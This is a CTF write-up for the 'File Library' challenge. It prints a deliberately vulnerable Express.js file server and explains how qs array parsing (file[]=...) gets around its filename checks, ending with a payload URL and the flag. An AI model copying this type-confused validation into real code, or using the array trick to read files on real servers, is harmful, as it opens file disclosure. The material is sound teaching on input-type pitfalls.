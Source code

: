 # File Library

Author: [roerohan](https://github.com/roerohan)

## Description

Express query parsing vulnerability.

## Requirements

- Express.js
- qs package used by Express.js

## Sources

- [server.js](./server.js)
- Deployed website using server.js

```
This is my file library. I don't have a lot of files, but I hope you like the ones I have!
```

## Exploit

This exploit is owing to the `qs` package used by `express` to parse `req.query`. You can send an array instead of a string through the GET params in the following manner:

```ja
/route?words[]=hello&words[]=world
```

This makes the `req.names` in the backend an array: `['hello', 'world']`.

```javascript
const express = require('express');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    const { file } = req.query;

    // If file name is undefined
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {
        // If file name has characters like ' ', '/'
        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    // If the length of file is greater than 5
    if (file.length > 5) {
        res.send(`file=${file}\nFilename too large!`);
        return;
    }

    // Check if file type is allowed
    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    const temp = __dirname + '/' + file;

    // If there are multiple file names (comma separated), take the first one.
    const returnedFile = temp.split(',')[0]

    // Read file to check if file exists
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});


app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    if ((file[file.length - 1] === 's' && file[file.length - 2] === 'j')
        || (file[file.length - 1] === 't' && file[file.length - 2] === 'x' && file[file.length - 3]) === 't') {
        return true;
    }
    return false;
}
```

The `/getFile` route is meant to get you a file from the server. But there are certain restrictions. First, you can't have ` `s or `/`s in your file. This prevents path traversal to an extent. 
<br />

Then, it checks that the `file` parameter has a length of less than 5 characters. This will prevent you from accessing a file like `flag.txt`. Then, it checks if the file ends with `js` or `txt`, only then it will allow you to read that file. If all these are satisfied, a `temp` variable is created to get the absolute path in the directory. After that, it checks whether `temp` has `,`s in it, if yes, it takes the first value before the comma, so that it selects the first file if a user passes many comma-separated files.
<br />

So, if we pass `file[]=flag.txt`, it bypasses all the checks except the `allowedFileType()` check, since the length of the array is less than 5, and it does not have an element ` ` or `/`. Now, you can add 3 new elements to the array `t`, `x`, `t`, to the `file` parameter. Then, `temp` becomes `${__dirname}flag.txtt,x,t`, but the `temp.split(',')[0]` takes care of that. Here's the final payload:

```
/getFile?file[]=flag.txt&file[]=t&file[]=x&file[]=t
```

The flag is:

```
csictf{5h0uld_5tr1ng1fy_th3_p4r4ms}
```
